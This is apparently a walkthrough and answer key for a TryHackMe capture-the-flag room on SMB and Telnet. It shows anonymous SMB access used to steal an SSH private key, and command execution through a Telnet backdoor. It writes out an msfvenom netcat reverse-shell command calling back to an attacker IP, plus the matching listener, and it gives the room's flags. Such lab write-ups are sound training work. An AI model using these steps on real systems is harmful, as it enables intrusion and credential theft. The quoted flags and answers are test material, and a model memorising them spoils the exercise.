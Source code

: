 #  TryHackMe - Network Services (Room 015)

<details><summary>Task 1 - Understanding SMB</summary>
<p>

## Task 1.1

### Q: What does SMB stand for?

A: Server Message Block Protocol

## Task 1.2

### Q: What type of protocol is SMB?

A: Response-Request

## Task 1.3

### Q: What do clients connect to servers using?

A: TCP/IP

## Task 1.4

### Q: What systems does Samba run on?

A: Unix

</p>
</details>

<details><summary>Task 2 - Enumerating SMB</summary>
<p>
	
## Task 2.1

### Q: Conduct an __nmap__ scan of your choosing. How many ports are open?

A: 3

![](/Network%20Services/images/nmap.png)

## Task 2.2

### Q: What port is SMB running on?

A: 139/445

## Task 2.3

### Q: Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the WORKGROUP name?

A: WORKGROUP

![](/Network%20Services/images/WORKGROUP.png)


## Task 2.4

### Q: What comes up as the __name__ of the machine?

A: POLOSMB

![](/Network%20Services/images/polosmb.png)

## Task 2.5

### Q: What operating system version is running?

A: 6.1

## Task 2.6

### Q: What share sticks out as something we might want to investigate?

A: profiles

![](/Network%20Services/images/profiles.png)

</p>
</details>

<details><summary>Task 3 - Exploiting SMB</summary>
<p>
	
## Task 3.1

### Q: What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

A: smbclient //10.10.10.2/secret -U suit -p 445

## Task 3.3

### Q: Let's see if our interesting share has been configured to allow anonymous access - that it does not require authentication to view the files. We can do this easily by:

	* using the username "anonymous"
	* connecting to the share we found during the enumeration stage
	* and not supplying a password

Does the share allow anonymous access? Y/N?

A: Y

![](/Network%20Services/images/smbclient.png)

## Task 3.4

### Q: Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

A: John Cactus

![](/Network%20Services/images/john.png)

## Task 3.5

### Q: What service has been configured to allow him to work from home?

A: SSH

## Task 3.6

### Q: Okay! Now that we know this, what directory on the share should we look in?

A: .ssh

## Task 3.7

### Q: This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

A: id_rsa

## Task 3.8

### Q: Download this file to your local machine and change the permissions to 600. Now, use the information you have already gathered to work out the username of the account. Then use the service and key to log-in to the server. What is the smb.txt flag?

A: THM{smb_is_fun_eh?}

![](/Network%20Services/images/ssh.png)

</p>
</details>

<details><summary>Task 4 - Understanding Telnet</summary>
<p>
	
## Task 4.1

### Q: What is Telnet?

<details><summary>Answer</summary>
<p>

A: Application Protocol

</p>
</details>

## Task 4.2 

### Q: What has slowly replaced Telnet?

<details><summary>Answer</summary>
<p>
	
SSH

</p>
</details>

## Task 4.3

### Q: How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

<details><summary>Answer</summary>
<p>
	
telnet 10.10.10.3 23

</p>
</details>

## Task 4.4

### Q: The lack of what means that all Telnet communication is in plaintext?

<details><summary>Answer</summary>
<p>
	
Encryption

</p>
</details>

</p>
</details>

<details><summary>Task 5 - Enumerating Telnet</summary>
<p>
	
## Task 5.1

### Q: How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>

1

![](/Network%20Services/images/nmap2.png)

</p>
</details>

## Task 5.2

### Q: What port is this?

<details><summary>Answer</summary>
<p>

8012

</p>
</details>

## Task 5.3

### Q: This port is unassigned, but still lists the protocol it is using, what protocol is this?

<details><summary>Answer</summary>
<p>

TCP

</p>
</details>

## Task 5.4

### Q: Now re-run the namp scan without the -p- flag. How many ports show up as open?

<details><summary>Answer</summary>
<p>
	
0

![](/Network%20Services/images/closed.png)

</p>
</details>

## Task 5.5 - no answer needed

### Here, we see that by assigning Telnet to a __non-standard port__ it is not part of the common ports list or top 1000 ports that nmap scans. It is important to try every angle when enumerating as the information you gather here will inform your exploitation stage

## Task 5.6

### Q: Based on the title returned to us, what do we think this port could be used for?

<details><summary>Answer</summary>
<p>
	
A backdoor

![](/Network%20Services/images/backdoor.png)

</p>
</details>

## Task 5.7

### Q: Who could it belong to? Gathering possible usernames is an important step in enumeration?

<details><summary>Answer</summary>
<p>
	
Skidy

</p>
</details>

## Task 5.8 - no answer needed

### Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits

</p>
</details>

<details><summary>Task 6 - Exploiting Telnet</summary>
<p>
	
## Task 6.1 - no answer needed

### Okay, let's try and connect to this telnet port

## Task 6.2

### Q: Great! It's an open telnet connection. What welcome message do we receive?

<details><summary>Answer</summary>
<p>
	
SKIDY'S BACKDOOR

![](/Network%20Services/images/skidy.png)

</p>
</details>

## Task 6.3

### Q: Let's try executing some commands. Do we get a returnon any input we enter into the telnet session (Y/N)

<details><summary>Answer</summary>
<p>

N

![](/Network%20Services/images/run.png)

</p>
</details>

## Task 6.4 - no answer needed

### Q: That's strange. Let's check to see if what we are typing is being executed as a system command

## Task 6.5 - no answer needed

### Q: Start a tcpdump listener on your local machine using `sudo tcpdump ip proto \\icmp -i tun0` - this starts a tcpdump listener specifically listening for ICMP traffic which ping operates on

## Task 6.6

### Q: Now, use the command `ping [local tun0 ip] -c 1` through the telnet session to see if we are able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

<details><summary>Answer</summary>
<p>
	
Y

![](/Network%20Services/images/ping.png)

</p>
</details>

## Task 6.7 - no answer needed

### Q: Great! This means we are able to execute system commands AND that we are able to reach our local machine

## Task 6.8

### Q: We are going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax

	`msfvenom -p cmd/unix/reverse_netcat lhost=10.11.3.112 lport=4444 R`

Flag | Description
------------ | -------------
-p | payload
lhost | our local host IP
lport | the port to listen on
R | export the payload in RAW format

What word does the generated payload start with?

<details><summary>Answer</summary>
<p>
	
mkfifo

![](/Network%20Services/images/mkfifo.png)

</p>
</details>

## Task 6.8

### Q: Perfect. We are nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using

	`nc -vlp [listening port]`

What would the command look like for the listening port we selected?

<details><summary>Answer</summary>
<p>
	
nc -lvp 4444

</p>
</details>

## Task 6.10 - no answer needed

### Q: Great! Now that's running we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully - this will give us a shell on the target machine

## Task 6.11

### Q: Success! What is the contents of flag.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_t3ln3t_fl4g}

![](/Network%20Services/images/telnet_flag.png)

</p>
</details>

</p>
</details>